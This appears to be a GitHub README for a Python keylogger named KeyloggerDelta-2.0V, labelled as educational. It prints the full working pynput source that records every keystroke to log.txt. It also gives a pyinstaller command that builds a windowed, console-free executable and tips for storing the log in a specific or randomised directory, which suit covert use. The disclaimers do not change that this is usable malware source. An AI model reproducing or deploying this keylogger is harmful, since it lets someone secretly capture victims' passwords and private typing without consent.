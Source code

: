 <p align="center">
<img width="500" height="500" src="https://i.ibb.co/kmwkqvg/Key-Logg-PNG.png" alt="KeyLoggPNG" border="0">
</p>

# KeyloggerDelta-2.0V
This is KeyloggerDelta-2.0V. By Python Code with proper comments and an ethical focus. Open Source - MIT License - Contributions and Ask are welcome to improve its functionality or add new features. (^^) / ♡ -XamRyo-

# Ethical and Open-Source:

This repository contains a simple keylogger implemented in Python for **educational purposes** only. It is intended to demonstrate how keylogging works and should be used responsibly. Unauthorized use of this software may violate privacy laws and is strictly prohibited.

## Features
- Captures and logs keypresses.
- Saves keystrokes to a `log.txt` file.
- Stops logging when the `ESC` key is pressed.
- By default, `log.txt` is stored in the same directory where the script is executed. 
- Optionally, the file can be saved to a specific directory or a random location (requires modification).

## Code
```bash
from pynput.keyboard import Key, Listener

# List to store pressed keys
keys = []

def on_press(key):
    """Handles key press events."""
    keys.append(key)
    write_to_log(keys)

def write_to_log(keys):
    """Converts key events to string and writes to a log file."""
    with open('log.txt', 'w') as logfile:
        for key in keys:
            key = str(key).replace("'", "")  # Remove quotes from key string
            logfile.write(key)

def on_release(key):
    """Stops listener when 'Escape' key is pressed."""
    if key == Key.esc:
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
## Requirements
- Python 3.13.1 or any V2>
- Libraries:
  - [pynput](https://pypi.org/project/pynput/): For capturing keyboard input.
  - [pyinstaller](https://pypi.org/project/pyinstaller/): For converting Python scripts into standalone executables.

## Installation
1. Clone this repository:
    ```bash
    git clone https://github.com/<your-username>/ethical-keylogger-python.git
    cd ethical-keylogger-python
    ```

2. Install the required Python packages:
    ```bash
    python -m pip install –upgrade pip.
    pip install pynput
    pip install pyinstaller
    ```

3. Run the script:
    ```bash
    python KeyloggerDelta-2.0V.py
    ```

## Create Executable
Convert the script into an executable file:
```bash
pyinstaller --clean --onefile --windowed .\KeyloggerDelta-2.0V.py
```

## Output Details (NOT OBLIGATORY):
- The script creates a file named `log.txt`, which stores all the captured keystrokes.
- **Default Location**: The `log.txt` file will be created in the same directory as the script or executable or idk your PC XD.
- **Custom/Random Location**: You can modify the script to save the `log.txt` file to a specific directory or generate a random location:
    - **Specific Directory**:
      Replace the `log.txt` path in the script with the desired directory, e.g.:
      ```python
      with open('C:/logs/log.txt', 'w') as logfile:
      ```
    - **Random Directory**:
      Use Python's `os` and `random` libraries to dynamically create a random directory. Example:
      ```python
      import os
      import random
      random_dir = f"C:/temp/logs-{random.randint(1000, 9999)}/"
      os.makedirs(random_dir, exist_ok=True)
      with open(f"{random_dir}log.txt", 'w') as logfile:
      ```
      This is NOT NECESSARY...

## DISCLAIMER AND LICENCE
This project is for ethical use only. The Dev-XamRyo are not responsible for any misuse. Ensure you have explicit permission to log keystrokes on any system where this tool is used ^-^

## Licence
This project is licensed under the MIT License. Ask and support repository :)
